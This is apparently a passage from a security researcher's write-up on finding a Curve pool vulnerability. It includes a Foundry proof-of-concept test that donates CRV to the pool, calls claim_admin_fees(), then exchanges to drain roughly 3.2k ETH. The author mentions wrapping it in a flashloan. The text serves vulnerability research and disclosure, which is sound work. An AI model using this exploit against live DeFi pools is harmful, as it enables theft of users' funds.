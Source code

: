 **13:41 PST** I `ctrl-f` the pool code for `self.balances` to see where they update, it appears the only way to update them is by calling `claim_admin_fees()`, which anyone can do. I create a Foundry project and a test. I try to `claim_admin_fees()`, but it reverts. Not a surprise, I know from making [stakedflip.fi]() fuzz tests that Curve pools tend to break at the extrema. I cheat some CRV, donate it to the pool, and `claim_admin_fees()` passes! I then add an exchange.

See the original test PoC here:
```solidity
function test() public { 
    console.log(pool.balances(0),pool.balances(0)/10**18);       
    console.log(pool.balances(1),pool.balances(1)/10**18); 
    
    pool.get_dy(1,0,10**12); 
    console.log("initial balance", owner.balance ); 
    console.log("price1",pool.get_dy(1,0,10**18)); 
    
    vm.prank(0x5f3b5DfEb7B28CDbD7FAba78963EE202a494e2A2); // crv whale
        crv.transfer(owner, 100 000*10**18);
    
    vm.prank(owner); 
        crv.transfer(address(pool),30000*10**18);
        
    pool.claim_admin_fees(); 
    console.log("price2", pool.get_dy(1,0,10**18)); 
    
    vm.startPrank(owner); crv.approve(address(pool),2**256 - 1); uint256 amt =     
        pool.exchange(1,0,70000*10**18,0,true); 
    console.log("amt",amt); 
    console.log("balance", owner.balance / 10**18); 
} 
```


You can see that ETH balance of `owner` increased from 0 to 3.2k with 100k cheatcoded CRV:
![](../images/poc-log.png)


**Boom**, for 100k CRV, one can drain 3.2k eth. I start to work on wrapping this into a flashloan so I have a more solid PoC to share. 
